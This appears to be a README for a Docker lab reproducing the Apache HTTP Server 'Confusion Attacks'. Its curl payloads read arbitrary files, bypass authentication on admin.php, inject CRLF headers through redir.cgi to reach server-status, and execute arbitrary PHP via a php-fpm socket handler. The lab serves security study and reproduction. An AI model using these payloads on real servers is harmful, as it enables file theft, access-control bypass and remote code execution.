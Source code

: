 # Docker test

Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!

https://blog.orange.tw/2024/08/confusion-attacks-en.html

```
docker build -t apache-lab .
docker run --rm -it --name my-running-app -p 8090:80 apache-lab
```

## Read file

```
curl 'http://localhost:8090/user/orange/secret.yml%3f'
curl http://localhost:8090/html/usr/share/doc/mount/mount.txt%3f
```

## Bypass Auth

```
curl 'http://localhost:8090/admin.php'
curl 'http://localhost:8090/admin.php%3foooo.php'
```

## Server Status

```
curl 'http://localhost:8090/cgi-bin/redir.cgi?r=http://%0d%0aLocation:/ooo%0d%0aContent-Type:server-status%0d%0a%0d%0a'
```

## Run arbitrary PHP

```
curl 'http://intelnuc:8090/cgi-bin/redir.cgi?r=http://%0d%0aLocation:/ooo?%0d%0aContent-Type:proxy:unix:/run/php/php8.2-fpm.sock|fcgi://127.0.0.1/usr/share/anyscript.php%3f%0d%0a%0d%0a'

```
